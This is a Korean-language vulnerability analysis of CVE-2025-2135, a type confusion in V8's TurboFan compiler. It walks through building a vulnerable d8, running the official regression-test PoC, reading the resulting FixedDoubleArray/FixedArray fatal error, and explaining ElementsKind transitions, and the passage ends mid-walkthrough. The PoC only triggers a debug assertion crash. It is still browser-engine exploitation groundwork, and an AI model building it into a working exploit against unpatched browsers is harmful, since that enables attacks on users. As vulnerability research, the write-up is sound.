# CVE-2025-2135 — V8 TurboFan Type Confusion 취약점 분석

### 주요 실험 결과 요약

| 항목 | 실험·확인 결과 | 근거 |
|---|---|---|
| 분석 OS | Ubuntu 26.04.1 LTS, VMware | OS 버전 캡처 |
| 취약 V8 커밋 | `8f51e033902da9b786358e6e82f0dc57b46464dc` | `git rev-parse HEAD` |
| 수정 V8 커밋 | `8b490a9690b859346a68a3d2a7008b4e1852c3ea` | 공식 패치, 커밋 전환 |
| V8 실행 정보 | `V8 version 13.6.0 (candidate)` | `d8` 실행 화면 |
| 취약 버전 PoC | `Expected FixedDoubleArray but found [FixedArray]` | Fatal Error 화면 |
| 수정 버전 PoC | 출력 없이 정상 종료, 종료 코드 `0` | 패치 버전 실행 화면 |
| 배열 내부 구조 | `HOLEY_DOUBLE_ELEMENTS` → `HOLEY_ELEMENTS` 전이 확인 | `%DebugPrint()` |
| GDB 오류 위치 | `Builtins_ArrayIndexOfHoleyDoubles()` → `CheckObjectType()` → `V8_Fatal()` | `bt 20` |
| GDB Map 추론 | `InferMapsUnsafe()` 호출 확인 | `bt 8`, 중단점 |
| 동일성 검사 | `IsSame()` 반환 `al=0`, `je` 분기 후 550행 도달 | GDB 명령어 단위 추적 |


# 1. 분석 배경과 목표

## 1.1 CVE-2025-2135 개요

| 항목 | 내용 |
|---|---|
| 취약점 식별번호 | CVE-2025-2135 |
| 대상 | Google Chrome에서 사용하는 V8 JavaScript 엔진 |
| 유형 | Type Confusion(유형 혼동), CWE-843 |
| 중요 관련 컴파일러 | TurboFan |
| 직접 관련 소스 | `src/compiler/node-properties.cc` |
| 관련 함수 | `NodeProperties::InferMapsUnsafe()` |
| 관련 내부 연산 | `TransitionElementsKindOrCheckMap` |
| Chromium 이슈 | 400052777 |
| 보안 심각도 | High |
| 수정된 Chrome 데스크톱 버전 | 134.0.6998.88 이상에 포함된 보안 수정 |
| 공식 패치 커밋 | `8b490a9690b859346a68a3d2a7008b4e1852c3ea` |
| 공식 패치의 부모 커밋 | `8f51e033902da9b786358e6e82f0dc57b46464dc` |

V8은 JavaScript를 해석하고 실행하는 엔진이다. Chrome 전체가 아닌 V8 자체를 별도로 빌드한 뒤 `d8` 셸을 이용하면 특정 JavaScript를 실행하고 엔진 내부 동작을 분석할 수 있음. 이번 CVE의 문제는 JavaScript 문법 자체가 아니라 **TurboFan이 객체의 내부 유형을 추론하는 최적화 과정**에 있음.

Type Confusion은 프로그램이 실제 객체를 다른 자료형으로 잘못 해석하는 현상을 말함. 예를 들어 실수 전용 저장소(`FixedDoubleArray`)를 예상한 코드가 객체 참조를 저장하는 `FixedArray`를 만나면 서로 다른 메모리 표현을 혼동할 수 있음. 유형 불일치는 단순한 JavaScript 예외로 끝나지 않고 메모리 손상 위험으로 연결될 수 있음. 

## 1.2 V8, d8, PoC의 차이

| 용어 | 설명 | 이번 분석의 역할 |
|---|---|---|
| **V8** | JavaScript 엔진 구현체. 주로 C++로 작성됨 | 취약점이 있는 분석 대상 |
| **d8** | V8이 제공하는 개발자용 JavaScript 셸 | V8을 브라우저 없이 실행하는 프로그램 |
| **PoC** | 취약한 동작이 발생함을 보여주는 최소 재현 코드 | 취약점을 시험하기 위해 d8에 입력하는 JS 파일 |
| **GN** | 컴파일 방법과 빌드 대상 파일을 생성 | `gn gen ...` |
| **Ninja** | 실제 C++ 컴파일 및 링크 작업 수행 | `ninja -C ... d8` |
| **GDB / pwndbg** | 실행을 멈추고 스택, 변수, 레지스터, 어셈블리 확인 | 런타임 오류와 컴파일러 내부 추적 |

JavaScript 파일 하나만 내려받아서는 V8 내부의 과거 취약점을 재현하기 어려움. **PoC는 입력**, **취약 버전의 V8/d8은 실행 대상**이므로 두 요소가 모두 필요함. Chrome 브라우저 전체를 빌드할 필요는 없음.

---

# 2. 분석 환경 구축과 시행착오

## 2.1 실제 분석 환경


*그림 1. `lsb_release -a`로 Ubuntu 26.04.1 LTS 확인.*

## 2.2 depot_tools 설치

`depot_tools`는 Chromium/V8 프로젝트가 제공하는 소스 동기화 및 빌드 보조 도구 모음이다. V8 소스코드를 가져오기 위해 `fetch`, `gclient`를 사용.

```bash
cd ~
git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
export PATH="$HOME/depot_tools:$PATH"
which fetch
```

각 명령어의 의미는 다음과 같음.

- `cd ~`: 사용자 홈 디렉터리 이동.
- `git clone`: 원격 Git 저장소의 파일과 이력을 로컬에 복사.
- `export PATH=...`: 현재 터미널에서 `depot_tools` 명령어를 찾도록 경로 추가.
- `which fetch`: 실제로 사용될 `fetch` 명령어의 위치 확인.

**[실험 확인]** `which fetch`에서 다음 경로가 출력.

```text
/home/apple/depot_tools/fetch
```



*그림 2. `fetch` 명령어가 PATH에 등록되어 있음을 확인.*

## 2.3 V8 소스 다운로드

```bash
cd ~/CVE-2025-2135
fetch v8
```

`fetch v8` 실행 직후 화면 변화가 없어 다운로드가 멈춘 것처럼 보였다. `Running gclient root` 메시지는 **동기화가 진행 중임을 의미할 뿐 다운로드 완료 표시가 아니므로**, 명령어 종료 후 폴더를 확인함.

```bash
cd ~/CVE-2025-2135/v8
ls
```

**[실험 확인]** `src`, `test`, `build`, `DEPS`, `BUILD.gn`, `out` 등의 폴더·파일이 표시. `src`는 C++ 구현, `test`는 테스트 코드, `DEPS`는 의존성 정보.



*그림 3. V8 소스 저장소가 로컬에 생성된 모습.*

## 2.4 취약한 커밋 선택 및 의존성 동기화

V8 최신 개발 버전에는 이미 해당 취약점이 수정되어 공식 수정 커밋의 부모(패치 바로 직전) 커밋을 선택함.

```bash
git checkout 8f51e033902da9b786358e6e82f0dc57b46464dc
git rev-parse HEAD
gclient sync
```

- `git checkout <커밋>`: 지정된 시점의 소스코드로 작업 트리 이동.
- `git rev-parse HEAD`: 현재 선택된 정확한 커밋 식별.
- `gclient sync`: 선택된 커밋의 의존성 파일과 외부 프로젝트 동기화.

**[실험 확인]** 출력된 해시가 취약 버전 커밋과 일치하였고, 동기화는 다음과 같이 끝났다.

```text
8f51e033902da9b786358e6e82f0dc57b46464dc
Syncing projects: 100% (44/44), done.
```



*그림 4. 패치 직전 커밋 체크아웃과 `gclient sync` 진행 결과.*

`detached HEAD` 안내가 나타나더라도 특정 과거 커밋을 직접 선택할 때 발생할 수 있는 정상적인 Git 상태다.

## 2.5 빌드 의존성 설치 실패와 원인 분석

처음에는 V8의 패키지 설치 스크립트를 사용.

```bash
./build/install-build-deps.sh
```

그러나 공식 지원 Ubuntu 버전 목록에는 당시 실습 중인 **Ubuntu 26.04.1 LTS**가 포함되어 있지 않아 `--unsupported` 를 사용.

```bash
./build/install-build-deps.sh --unsupported
```



*그림 5. V8 빌드 의존성 스크립트에서 지원 OS 경고 출력.*

이후 패키지 정보는 갱신되었지만 전체 설치는 실패함.

```text
E: Unable to locate package libpcre3
E: Unable to locate package libwayland-egl1-mesa
apt-get --just-print install ... failed
```

종료 코드:

```bash
echo $?
# 100
```

**분석:** `apt`의 종료 코드 `100`은 패키지 처리 오류를 나타냄. 구체적으로 `libpcre3`, `libwayland-egl1-mesa`라는 패키지를 현재 저장소에서 찾지 못함. 이 오류는 **PoC가 발생시킨 유형 혼동 오류가 아니라 운영체제와 빌드 도구의 패키지 호환 문제**다.



*그림 6. 누락된 패키지와 종료 코드 `100` 확인.*

이에 시스템을 재설치하거나 오래된 Ubuntu 배포판의 패키지를 무리하게 설치하진 않고, 우선 d8 빌드에 필요한 기본 도구를 설치함.

```bash
sudo apt install -y build-essential clang lld ninja-build python3 pkg-config
echo $?
# 0
```

- `build-essential`: C/C++ 빌드에 쓰이는 기본 도구.
- `clang`: C++ 컴파일러.
- `lld`: 링커.
- `ninja-build`: 빌드 실행 도구.
- `python3`: V8 빌드 스크립트용 Python.
- `pkg-config`: 개발 라이브러리 구성 정보 검색.

**[실험 확인]** 대체로 설치한 기본 도구는 종료 코드 `0`으로 끝났다. 이후 실제 V8 빌드도 성공하였으므로 **이번 d8 빌드에 필요한 구성은 충족되었음**을 결과로 확인함

## 2.6 GN 빌드 설정과 Ninja 컴파일

```bash
gn gen out/vuln-debug --args='is_debug=true is_component_build=false target_cpu="x64" symbol_level=1'
```

설정 의미:

| 옵션 | 뜻 |
|---|---|
| `out/vuln-debug` | 취약 버전 빌드 결과 저장 위치 |
| `is_debug=true` | Debug 빌드(내부 검사와 디버깅용 설정) |
| `is_component_build=false` | 구성 요소를 개별 공유 라이브러리로 분리하지 않는 빌드 |
| `target_cpu="x64"` | x86-64 실행 환경 대상 |
| `symbol_level=1` | 일부 디버깅 정보만 포함, 빌드 크기 절감 |

**[실험 확인]** 다음과 같이 빌드 설정 생성에 성공.

```text
Done. Made 618 targets from 153 files in 534ms
```



*그림 7. GN 빌드 설정 생성 완료.*

```bash
ninja -C out/vuln-debug -j 2 d8
echo $?
```

- `-C out/vuln-debug`: 해당 빌드 디렉터리로 이동하여 작업.
- `-j 2`: 동시에 두 작업까지 실행. VMware 가상환경에서 메모리 부담을 줄이려는 설정.
- `d8`: 빌드할 최종 실행 대상.

**[실험 확인]** 빌드가 성공하여 `out/vuln-debug/d8` 실행 파일을 사용할 수 있었다. 실행 파일 확인 당시 아래 명령어를 사용.

```bash
./out/vuln-debug/d8 --version
```

출력:

```text
Warning: unknown flag --version.
Try --help for options
V8 version 13.6.0 (candidate)
d8>
```

`--version`은 당시 d8에서 알 수 없는 플래그였지만, `d8>` 프롬프트가 나타났기 때문에 **d8 자체는 실행되었다**. 브라우저와 달리 이 프롬프트에서는 JavaScript를 직접 입력할 수 있으며 `quit();`으로 종료한다.



*그림 8. `d8` 실행 성공 및 V8 13.6.0 (candidate) 확인.*

---

# 3. 공식 PoC 확보와 취약점 재현

## 3.1 PoC의 목적과 출처

PoC(Proof of Concept)는 해당 취약점이 실제로 발생함을 검증하기 위한 최소 테스트 코드임. 이번에는 공식 V8 수정 커밋에 추가된 회귀 테스트 파일을 사용함.

- 파일명: `regress-400052777.js`
- 위치: `poc/regress-400052777.js`
- 공식 원본: <https://chromium.googlesource.com/v8/v8/+/8b490a9690b859346a68a3d2a7008b4e1852c3ea/test/mjsunit/compiler/regress-400052777.js>

```bash
# 방법 A: Gitiles에서 BASE64 형태를 내려받아 디코딩
mkdir -p ~/CVE-2025-2135/poc
cd ~/CVE-2025-2135
curl -fsSL \
  'https://chromium.googlesource.com/v8/v8/+/8b490a9690b859346a68a3d2a7008b4e1852c3ea/test/mjsunit/compiler/regress-400052777.js?format=TEXT' \
  | base64 -d > poc/regress-400052777.js

# 방법 B: Git 저장소에서 패치 커밋의 해당 파일만 추출
cd ~/CVE-2025-2135/v8
git show 8b490a9690b859346a68a3d2a7008b4e1852c3ea:test/mjsunit/compiler/regress-400052777.js \
  > ../poc/regress-400052777.js

# 확인
nl -ba ../poc/regress-400052777.js
```

**중요:** `git show`는 패치된 테스트 파일의 내용을 출력할 뿐 취약 버전 V8의 C++ 코드를 자동으로 패치하지 않음.

## 3.2 공식 PoC 전체 코드

실제로 출력해 확인한 31행의 파일은 다음과 같다(행 번호를 제외한 원문 코드).

```javascript
// Copyright 2025 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.

// Flags: --allow-natives-syntax --turbofan --no-always-turbofan

function main() {
  function f0(v2, v3) {
    // TransitionElementsKindOrCheckMap: PACKED_SMI -> HOLEY_DOUBLE_ELEMENTS
    var v4 = v3[0];

    // TransitionElementsKindOrCheckMap: HOLEY_DOUBLE_ELEMENTS -> HOLEY_ELEMENTS
    var v5 = v2[0];

    // If v2 == v3, v3 doesn't have HOLEY_DOUBLE_ELEMENTS anymore.
    Array.prototype.indexOf.call(v3);
  }
  %PrepareFunctionForOptimization(f0);

  const holey = new Array(1);
  holey[0] = 'tagged'; // HOLEY_ELEMENTS
  f0(holey, [1]);

  const holey_double = new Array(1);
  holey_double[0] = 0.1; // HOLEY_DOUBLE_ELEMENTS

  %OptimizeFunctionOnNextCall(f0);
  f0(holey_double, holey_double);
}
main();
main();
```



*그림 9. 분석 대상 공식 PoC 전체 코드. 파일 하단의 `main(); main();`까지 확인.*

## 3.3 PoC 실행 옵션

```bash
cd ~/CVE-2025-2135/v8
./out/vuln-debug/d8 \
  --allow-natives-syntax \
  --turbofan \
  --no-always-turbofan \
  ../poc/regress-400052777.js
```

| 옵션 | 이유 |
|---|---|
| `--allow-natives-syntax` | `%PrepareFunctionForOptimization`, `%OptimizeFunctionOnNextCall` 같은 V8 내부 테스트 구문 허용 |
| `--turbofan` | TurboFan 최적화 컴파일러 사용 |
| `--no-always-turbofan` | 모든 함수를 무조건 TurboFan으로 처리하는 모드는 끔 |
| JS 파일 경로 | 분석용 공식 테스트 코드 실행 |

## 3.4 취약 버전에서 관찰된 결과

**[실험 확인]** 취약 버전 d8에서 위 PoC 실행 후 다음과 같은 오류가 출력되었다.

```text
# Fatal error in ../../src/objects/object-type.cc, line 82
# Type cast failed in CAST(elements) at ../../src/builtins/builtins-array-gen.cc:1353
  Expected FixedDoubleArray but found 0x2d2e00288c15: [FixedArray]
 - map: 0x2d2e00000565 <Map(FIXED_ARRAY_TYPE)>
 - length: 1
       0: 0x2d2e00288c21 <HeapNumber 0.1>

==== C stack trace ====
...
추적/중단점 함정 (코어 덤프됨)
```

메모리 주소는 실행마다 달라질 수 있으므로 중요한 것은 정확한 숫자가 아니라 **`FixedDoubleArray`를 기대했으나 `FixedArray`를 발견했다는 유형 불일치**다.



*그림 10. 취약한 Debug 빌드의 공식 PoC 재현 결과.*

해석:

1. 최적화된 실행 경로가 **실수용 저장소**(`FixedDoubleArray`)를 예상했다.
2. 그러나 검사 시점의 실제 저장소는 **일반 객체 값용 저장소**(`FixedArray`)였다.
3. `CAST(elements)` 과정에서 V8 내부 유형 검사가 실패했다.
4. Debug 빌드는 치명적 검사 실패를 `FATAL()`로 보고하고 프로그램을 종료했다.

이는 취약점 **재현 성공**의 핵심 증거다. **단, Arbitrary Read/Write나 임의 코드 실행까지 수행했다는 의미는 아님.**

---

# 4. V8 배열 구조 및 ElementsKind 

## 4.1 왜 JavaScript 배열에 내부 유형이 필요한가?

JavaScript에서는 `[1,2,3]`, `[0.1,0.2]`, `["A","B"]`가 모두 배열이지만 V8은 저장된 원소의 형태에 맞춰 다르게 저장한다. 이 원소 표현 분류를 **ElementsKind**라고 한다.

| 대표 ElementsKind | 뜻 | 내부 저장소 예시 |
|---|---|---|
| `PACKED_SMI_ELEMENTS` | 빈 슬롯 없이 작은 정수(SMI) 저장 | `FixedArray` |
| `PACKED_DOUBLE_ELEMENTS` | 빈 슬롯 없이 Double 숫자 저장 | `FixedDoubleArray` |
| `PACKED_ELEMENTS` | 빈 슬롯 없이 일반 JavaScript 값 저장 | `FixedArray` |
| `HOLEY_DOUBLE_ELEMENTS` | 빈 슬롯이 있을 수 있는 Double 배열 | `FixedDoubleArray` |
| `HOLEY_ELEMENTS` | 빈 슬롯이 있을 수 있는 일반 값 배열 | `FixedArray` |

- **PACKED**: 배열의 인덱스 구간에 빈 슬롯이 없는 유형.
- **HOLEY**: 배열의 인덱스에 값이 없는 슬롯이 있을 수 있는 유형.
- **SMI**: V8 내부에서 태그가 붙은 작은 정수 표현.
- **DOUBLE**: IEEE 754 부동소수점 숫자를 특별한 숫자 저장소에 담는 표현.
- **Map**: 배열을 포함한 V8 객체의 내부 구조와 ElementsKind 같은 정보를 나타내는 내부 메타데이터. JavaScript의 `Map` 객체와는 다르다.
- **FixedDoubleArray**: Double 원소를 직접 저장하는 원소 저장소.
- **FixedArray**: 태그된 JavaScript 값(SMI 또는 객체 참조 등)을 저장하는 원소 저장소.

예를 들어 `new Array(1)`은 `length`가 1이지만 `0`번 인덱스에 실제 원소가 없는 상태를 만든다. 이때 `arr[0]`을 읽으면 `undefined`가 나오지만, 그것은 원소 자리에 `undefined` 값이 명시적으로 저장되어 있다는 뜻과는 구분됨. 빈 슬롯이 가능한 배열은 HOLEY 계열로 관리됨.

## 4.2 실수 배열의 내부 구조 관찰

V8 자체의 디버깅용 JavaScript 문법 `%DebugPrint()`를 사용.

```bash
cd ~/CVE-2025-2135/v8
./out/vuln-debug/d8 --allow-natives-syntax
```

대화형 `d8>`에서:

```javascript
let arr = new Array(1);
arr[0] = 0.1;
%DebugPrint(arr);
```

`arr[0] = 0.1` 이후 `0.1`이 출력.

**[실험 확인]** 핵심 출력:

```text
DebugPrint: ... [JSArray]
- map: ... <Map[16](HOLEY_DOUBLE_ELEMENTS)> [FastProperties]
- elements: ... <FixedDoubleArray[1]> [HOLEY_DOUBLE_ELEMENTS]
- length: 1
...
- elements: ... <FixedDoubleArray[1]> {
           0: 0.1
}
...
- elements kind: HOLEY_DOUBLE_ELEMENTS
```





*그림 11~12. `HOLEY_DOUBLE_ELEMENTS`, `FixedDoubleArray[1]` 및 값 `0.1` 확인.*

의미:

1. V8은 `arr`을 `JSArray`로 관리한다.
2. `Map`에 `HOLEY_DOUBLE_ELEMENTS`라는 원소 유형이 기록되어 있다.
3. 실제 저장소는 `FixedDoubleArray[1]`이다.
4. 저장소 인덱스 `0`에 `0.1`이 저장되어 있다.
5. 이 정상 사례에서는 예상 유형과 저장소 유형이 일치한다.

## 4.3 실수 배열에 문자열을 넣는 ElementsKind Transition 

같은 배열에 실수 대신 문자열을 저장하였다.

```javascript
arr[0] = "hello";
%DebugPrint(arr);
```

**[실험 확인]** 다음과 같이 바뀌었다.

```text
- map: ... <Map[16](HOLEY_ELEMENTS)> [FastProperties]
- elements: ... <FixedArray[1]> [HOLEY_ELEMENTS]
- length: 1
...
- elements: ... <FixedArray[1]> {
           0: ... <String[5]: #hello>
}
...
- elements kind: HOLEY_ELEMENTS
```





*그림 13~14. 문자열 저장 후 `HOLEY_ELEMENTS`와 `FixedArray[1]`로 전이됨.*

두 실험 결과 비교:

| 항목 | 변경 전 | 변경 후 |
|---|---|---|
| JavaScript 값 | `0.1` | `"hello"` |
| Map의 ElementsKind | `HOLEY_DOUBLE_ELEMENTS` | `HOLEY_ELEMENTS` |
| 실제 원소 저장소 | `FixedDoubleArray[1]` | `FixedArray[1]` |
| 결과 | 정상 실행 | 정상 실행 |

이러한 변화를 **ElementsKind Transition(원소 표현 유형 전이)**라고 함. 정상적인 V8에서는 Map과 실제 저장소가 함께 일관되게 갱신. CVE-2025-2135에서 문제가 되는 것은 **전이 자체가 아니라, 최적화 단계가 전이의 영향을 잘못 해석하여 여전히 이전 유형을 신뢰하는 것**.

---
# 5. 공식 PoC 31행 상세 분석

## 5.1 코드 1~5행 — 라이선스와 실행 조건

```javascript
// Copyright 2025 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.

// Flags: --allow-natives-syntax --turbofan --no-always-turbofan
```

위의 `//`는 JavaScript의 주석이므로 직접 실행되지 않는다. 앞부분은 파일의 저작권·라이선스 안내이고, `Flags`에는 회귀 테스트를 실행할 때 필요한 d8 옵션이 적혀 있다. `--allow-natives-syntax` 옵션을 빼면 `%`로 시작하는 내부 테스트용 구문을 일반 JavaScript 문법으로 읽어 오류가 날 수 있다.

## 5.2 코드 7~17행 — `main()`과 `f0(v2, v3)`

```javascript
function main() {
  function f0(v2, v3) {
    // TransitionElementsKindOrCheckMap: PACKED_SMI -> HOLEY_DOUBLE_ELEMENTS
    var v4 = v3[0];

    // TransitionElementsKindOrCheckMap: HOLEY_DOUBLE_ELEMENTS -> HOLEY_ELEMENTS
